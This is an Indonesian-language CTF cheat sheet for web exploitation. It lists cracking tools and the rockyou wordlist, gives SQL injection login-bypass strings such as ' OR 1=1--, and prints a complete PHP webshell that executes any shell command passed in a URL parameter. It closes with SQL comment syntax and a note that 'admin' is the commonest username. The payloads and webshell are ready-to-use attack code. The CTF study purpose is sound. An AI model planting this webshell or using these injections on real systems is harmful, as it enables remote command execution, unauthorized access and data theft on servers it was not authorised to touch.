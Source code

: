 ```yaml
---
title: Semua Tentang CTF - Kategori Web Exploitation
published: true
---
```

# Tools dan File yang Umum Digunakan
Kategori Web Exploitation:
1. [JWT (JSON Web Token) - Cookie dengan JAuth](https://token.dev/){:target="_blank"}
2. [Deobfuscate - Kode JS yang Sulit Dibaca](https://deobfuscate.io/){:target="_blank"}
3. [John The Ripper - Brutefore JWT Signature Key](https://github.com/openwall/john-packages){:target="_blank"}
4. [Rockyou Wordlist - Kumpulan Kata untuk Bruteforce CTF](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt){:target="_blank"}

# Kode Penting
SQL Injection
```sql
' OR 1=1--
```

Modified SQL Injection (by me)
```sql
' OR 1=1 OR '1'='1
```
PHP Webshell (Execute Linux Command) dari [joswr1ght](https://gist.github.com/joswr1ght).

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

# Catatan Tambahan Untuk Belajar
## Comment Pada SQL
```sql
SELECT * FROM Customers -- WHERE City='Berlin';
```
```sql
/*Select all the columns
of all the records
in the Customers table:*/
SELECT * FROM Customers;
```
```sql
SELECT CustomerName, /*City,*/ Country FROM Customers;
```
## Username yang Umum Digunakan
```admin``` paling umum digunakan.